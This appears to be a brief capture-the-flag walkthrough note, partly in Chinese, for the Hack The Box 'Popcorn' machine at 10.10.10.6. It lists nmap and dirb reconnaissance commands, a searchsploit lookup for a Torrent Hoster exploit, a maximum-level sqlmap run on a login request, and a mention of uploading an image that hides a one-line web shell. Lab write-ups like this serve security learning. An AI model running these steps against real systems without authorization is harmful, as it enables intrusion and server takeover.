

#Popcorn
``` 
nmap -sC -sV -oA nmap/popscorn 10.10.10.6

```

``` 
dirb http://10.10.10.6 -r -o tmp.dir

searchsploit "tarrent hoster"
searchsploit -x 11746.txt
```
尝试登录，request信息存为txt，用sqlmap
``` 
sqlmap -r login.req --level 5 --risk 3
```
上传图片，图片包含一句话


